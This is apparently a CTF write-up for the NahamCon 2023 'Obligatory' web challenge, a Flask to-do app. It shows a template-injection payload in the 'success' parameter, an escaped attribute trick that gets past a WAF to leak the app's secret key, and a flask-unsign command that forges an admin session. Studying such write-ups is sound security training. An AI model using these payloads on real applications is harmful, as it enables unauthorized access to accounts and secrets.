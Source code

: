 # Obligatory [Web]

NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](./todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](./ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by WAF

![](./config-waf.png)

Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`

![](./waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](./flask.png)

**Flag obtained after using the newly signed auth-token**

![](./flag.png)
